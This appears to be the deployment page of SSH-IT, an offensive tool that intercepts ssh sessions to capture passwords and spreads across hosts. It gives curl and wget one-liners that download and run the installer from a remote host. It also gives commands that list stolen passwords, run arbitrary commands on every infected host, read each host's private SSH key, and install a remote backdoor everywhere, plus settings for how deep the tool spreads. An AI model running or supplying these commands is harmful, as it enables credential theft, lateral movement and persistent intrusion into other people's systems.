


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/deploy/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->



Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}

{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}

{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact


